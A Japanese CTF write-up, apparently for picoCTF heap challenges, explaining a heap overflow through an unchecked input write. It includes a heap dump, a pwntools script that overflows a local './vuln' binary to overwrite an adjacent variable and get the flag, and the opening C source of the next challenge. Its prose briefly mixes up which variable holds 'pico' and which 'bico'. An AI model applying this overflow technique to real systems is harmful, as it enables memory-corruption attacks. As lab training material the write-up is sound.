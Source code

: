`init`でmallocを使って`safe_var`と`input_var`を作り、それぞれ、`"pico"`と`"bico"`に初期化している。init関数終了時点でのheapは以下のようになっている。
```
0x5555555596a0                          0x0000000000000021      ........!.......
0x5555555596b0  0x000000006f636970      0x0000000000000000      pico............
0x5555555596c0  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555596d0  0x000000006f636962      0x0000000000000000      bico............
0x5555555596e0  0x0000000000000000      0x0000000000020921      ........!.......
```
`write_buffer`では入力のサイズを確認せず、そのまま`input_data`に書き込んでいる。
よって、ここにheap overflowの脆弱性がある。
フラグを得るには`safe_var`の値`"bico"`を他の適当な値に改変すれば良いので、exploitは以下のようになる。
```python
#!/usr/bin/env python
import pwn


def connect():
    return pwn.process("./vuln")


io = connect()
io.sendline(b"2")
io.sendline(b"a" * 33)
io.sendline(b"4")
io.recvuntil(b"YOU WIN\n")


print(io.recvline())
```
## heap1
ソースコードが渡された。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
```
